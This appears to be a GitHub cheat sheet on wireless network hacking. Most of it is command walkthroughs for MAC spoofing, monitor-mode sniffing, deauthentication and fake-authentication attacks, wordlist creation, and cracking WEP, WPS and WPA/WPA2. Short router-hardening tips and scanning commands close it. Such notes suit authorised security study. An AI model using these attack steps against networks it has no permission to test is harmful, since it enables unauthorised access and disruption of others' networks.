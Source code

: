 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [Creating a Wordlist](#wordlist)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WPA & WPA](#wpa)
- [Set Security to your Router](#router)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`airodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wordlist"/>

## Wordlist with `crunch`

**Desc** : Wordlist are used to bruteforce password, here is how to create our own wordlist

**USAGE** : `crunch <MIN> <MAX> <CHARACTERS> -t <PATERN> -o <FILE_NAME>`

example
```bash
crunch 6 8 123abc$ -t a@@@@b -o wordlist.txt
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password\
Router must be on WPS not be configured "Push Button" or "PBC", only way to know is to test

1. [Change wireless mode](#changewirelessmode) to monitor
2. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
3. Do Some (30) [Fake Authentification Attack](#fakeauth)
4. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wpa"/>

### WPA & WPA2

**DESC** : WPA fixed WEP vulnerabilities, one way is to bruteforce the password with wordlist.\
The main idea is to catch the handshake to then bruteforce\
MIC = Message Integrity Code
This is the code we try to get correct by testing password from worlist and the data of the handshake (SP address, STA Address, AP Nonce, STA Nonce, EAPOL, Payload).

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Wait for capturing the handshake) and save them in a file <FILE_NAME>.cap
3. Do some (4) [Fake Authentification Attack](#fakeauth)
    1. force the handshake on one user
4. With [wordlist](#wordlist) run `aircrack-ng`
    ```bash
    aircrack-ng <FILE_NAME>.cap -w <WORDLIST_FILE>
    ```

<a name="router"/>

## Secrutiy for Router

Make sur you set WPA2 as encryption
Make sur you password is long with capital leters and special characters
Make sur to desable WPS

Find router ip
```bash
[Windows]
Get-NetRoute

[Linux]
ip route
```

## Network Inforamtion Gathering

With `netdiscover`
```bash
netdiscover -r <IP_RANGE>

example:
netdiscover -r 192.8.4.1/24
```

With `zenmap`, a GUI for `nmap`
1. Set an IP range in the target field
2. Select a Profile
3. Run scan
